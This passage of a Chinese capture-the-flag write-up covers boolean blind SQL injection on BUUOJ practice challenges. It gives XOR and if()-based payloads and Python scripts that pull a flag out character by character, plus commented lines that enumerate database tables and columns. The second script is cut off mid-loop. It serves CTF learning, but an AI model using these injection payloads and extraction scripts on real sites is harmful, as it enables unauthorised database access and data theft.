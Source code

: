 异或
`1^1=0  1^1^1=1`
payload:`1^(ascii(substr((select(flag)from(flag)),1,1))=102)^1`
脚本

```py
import requests
import time

url='http://ce2d5a60-c4be-4088-87f8-7419722a4e48.node4.buuoj.cn:81/index.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag=''
for i in range(1,100):
    for j in range(32,128):
        data={"id":f"1^(ascii(substr((select(flag)from(flag)),{i},1))={j})^1"}
        r=requests.post(url=url,data=data)
        time.sleep(0.1) #buu对访问速度有限制，需要慢一点
        #print(data)
        if("Hello, glzjin wants a girlfriend."in r.text):
            flag+=chr(j)
            print(flag)
            if chr(j)=='}':
                exit()
            break
```

#### 第二种

实际上类似第一种，不过更好理解

payload: `if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)`
if成立则返回1，反之则是0

脚本就上面稍微改改就好



### [WUSTCTF2020]颜值成绩查询



这题确确实实让我警醒了
<font color='red'>**异或真的有必要出现在sql里面吗？？？？如果可以异或了，我还需要异或？？？这前面的1^不要了不也可以正常注入？？？**</font>

这题很明显就是一个盲注，直接上脚本

```python
import requests
import time

url='http://c96b3f21-359d-4ac2-b6e9-624191da429d.node4.buuoj.cn:81/?'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
a='[+]data:'
flag=''
for i in range(1,100):
    low=32
    high=128
    mid=(low+high)//2
    while(low<high):
        #data=f"stunum=(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))={j})"
        #data=f"stunum=(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{i},1))={j})"
        data=f"stunum=(ascii(substr((select(group_concat(value))from(flag)),{i},1))>{mid})"
        r=requests.get(url+data)
        time.sleep(0.05)
        if "Hi admin" in r.text:
            low=mid+1
        else:
```